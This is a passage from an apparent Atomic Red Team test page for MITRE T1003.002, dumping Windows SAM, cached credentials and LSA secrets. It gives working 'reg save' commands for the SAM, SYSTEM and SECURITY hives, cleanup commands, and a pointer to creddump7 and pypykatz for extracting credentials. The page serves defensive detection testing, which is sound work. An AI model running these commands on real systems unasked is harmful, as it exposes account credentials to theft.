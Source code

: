 ```yaml
---
tags: [T1003_002, atomic_test]
filename: "[[T1003.002 - OS Credential Dumping- Security Account Manager]]"
---
```

# T1003.002 - OS Credential Dumping: Security Account Manager

## Atomic Test #1 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

Upon successful execution of this test, you will find three files named, sam, system and security in the %temp% directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 5c2571d0-1572-416d-9676-812e64ca9f44






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg save HKLM\sam %temp%\sam
reg save HKLM\system %temp%\system
reg save HKLM\security %temp%\security
```

#### Cleanup Commands:
```cmd
del %temp%\sam >nul 2> nul
del %temp%\system >nul 2> nul
del %temp%\security >nul 2> nul
```





<br/>
<br/>

## Atomic Test #2 - Registry parse with pypykatz
Parses registry hives to obtain stored credentials

**Supported Platforms:** Windows
